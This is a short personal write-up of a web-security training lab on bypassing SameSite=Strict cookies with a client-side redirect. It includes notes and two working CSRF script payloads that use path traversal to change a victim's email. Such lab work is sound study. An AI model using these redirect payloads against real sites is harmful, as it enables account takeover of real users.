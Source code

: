 # CSRF Lab 8: SameSite Strict via Client-Side Redirect

## Notes
Session Cookie: TSEuNj6FHuUlKWJxJvD4blwiHJTQ42Xc

Login page shows SameSite=Strict

Email can be changed with a GET request

Copy the GET request:
    /my-account/change-email?email=email@email.com&submit=1
Change the & for the submit value to %26 for URL encoding

Testing CSRF Tokens Checklist: - CSRF Vulnerable
    - Relevant Actions - change email
    - Cookie based session handling - session cookie
    - No unpredictlbe request parameter - passes

## Exploit
```html
<script>
    document.location = "https://0a3c004b03d1da9f81d6486800f60039.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```
```html
<script>
    window.location = "https://0a3c004b03d1da9f81d6486800f60039.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=evil%40ludicro.net%26submit=1";
</script>
```

One of these scripts worked and I don't remember which one.